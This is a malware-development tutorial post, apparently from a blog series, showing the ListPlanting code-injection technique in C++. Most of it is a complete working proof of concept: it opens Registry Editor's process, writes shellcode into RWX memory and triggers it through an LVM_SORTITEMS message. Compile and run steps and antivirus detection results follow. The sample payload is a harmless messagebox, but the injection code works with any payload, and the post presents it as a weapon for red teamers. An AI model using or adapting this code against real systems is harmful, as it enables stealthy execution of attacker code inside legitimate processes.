



\newpage
\subsection{37. malware development tricks. Listplanting. C++ example.}

﷽

Hello, cybersecurity enthusiasts and white hackers!

{width="80%"}    

This post is the result of my own research into the malware dev trick: Listplanting.     

Using the `LVM_SORTGROUPS`, `LVM_INSERTGROUPSORTED`, and `LVM_SORTITEMS` messages, a `ListView` control's items and groups can have their sorting behavior modified to suit individual preferences. List-view controls are user interface windows that display groups of things. A `SysListView32` control stores information about an application's list-view settings in the process' memory.    

*ListPlanting* may be performed by copying code into the virtual address space of a process that uses a list-view control then using that code as a custom callback for sorting the listed items.    

### practical example

Let's go to look at a practical example. The trick is pretty simple:    

First of all, get windows handle:

```cpp
HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);
```

Then, get process ID, and open it (get process handle by `OpenProcess`):   

```cpp
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```

At the next step, we allocate RWX-memory via `VirtualAllocEx` and "copy" payload:     

```cpp
mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

// copy payload
WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);
```

Finally, trigger payload:    

```cpp
// trigger payload
PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);
```

According to [documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea), `PostMessage` - Places (posts) a message in the message queue associated with the thread that created the specified window and returns without waiting for the thread to process the message.      

The full source code of my PoC:      

```cpp
/*
hack.cpp
code injection Listplanting
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/27/malware-tricks-24.html
*/
#include <windows.h>
#include <commctrl.h>
#include <iostream>
#pragma comment (lib, "user32.lib")

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE ph;
  DWORD pid;
  LPVOID mem;

  // find window
  HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
  HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);

  // obtain the process id and try to open process
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  // allocate RWX memory
  mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT,
   PAGE_EXECUTE_READWRITE);

  // copy payload
  WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);

  // trigger payload
  PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);

  // free memory
  VirtualFreeEx(ph, mem, 0, MEM_DECOMMIT | MEM_RELEASE);
  CloseHandle(ph);

  return 0;
}
```

As you can see, as usually, for simplicity I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Let's go to see everything in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Then, run Registry Editor in the victim machine (`Windows 10 x64` in my case):      

{width="80%"}    

And, run our `hack.exe`:    

```powershell
.\hack.exe
```

{width="80%"}    

{width="80%"}    

Run as Administrator, because for injecting to Registry Editor (`regedit.exe`) requires elevated privileges.     

For correctness, run `Process Hacker 2` as Administrator and check *memory* tab:     

{width="80%"}    

{width="80%"}    

As you can see, everything is work perfectly :)    

Let's go to upload `hack.exe` to VirusTotal:    

{width="80%"}    

**So, 19 of 71 AV engines detect our file as malicious.**    

[https://www.virustotal.com/gui/file/a1037630f95f721c6a7a1b6d8c278b4e926253b3888ac838d507af8c8baf8844/detection](https://www.virustotal.com/gui/file/a1037630f95f721c6a7a1b6d8c278b4e926253b3888ac838d507af8c8baf8844/detection)     

This technique is used in [InvisiMole](https://attack.mitre.org/software/S0260/). *InvisiMole* is a modular spyware software that the InvisiMole Group has been using since at least 2013.      

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[ATT&CK MITRE: ListPlanting](https://attack.mitre.org/techniques/T1055/015/)      
[InvisiMole](https://attack.mitre.org/software/S0260/)     
[PostMessage](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-11-27-malware-tricks-24)       
